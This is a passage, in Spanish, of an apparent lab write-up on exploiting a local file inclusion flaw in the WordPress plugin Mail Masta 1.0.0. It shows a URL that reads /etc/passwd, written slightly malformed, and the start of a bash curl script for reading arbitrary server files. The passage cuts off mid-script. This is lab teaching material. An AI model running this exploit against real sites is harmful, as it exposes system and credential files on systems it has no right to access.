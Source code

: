 Chan. Mail Masta, un plugin vulnerable a [LFI (Local File Inclusion)](https://lab.wallarm.com/what-is-local-file-inclusion-vulnerability/)

![](/assets/images/labPivoting/9.png)

Versión 1.0.0, lo cuál es vulnerable al exploit 40290.txt de searchsploit
En el exploit nos dice que para leer archivos del servidor mediante Mail Masta, hay que ir a la siguiente ruta: 
``http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send?p/etc/passwd``

![](/assets/images/labPivoting/10.png)

Con esto, nos podemos montar un script en bash que lea el archivo que le pedimos
``lfi.sh``
```bash
#!/bin/bash
#Gracias S4vitar!
function ctrl_c(){
  echo -e "\n\n[!]Saliendo...\n"
  exit 1
}

# Ctrl + C
trap ctrl_c INT

declare -i parameter_counter=0

function fileRead(){
  filename=$1

  echo -e "\n[+] Este es el contenido del archivo $filename:\n"
  curl -s -X GET "http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=$filename"
}
function helpPanel(){
  echo -e "\n[i]Uso\n"
```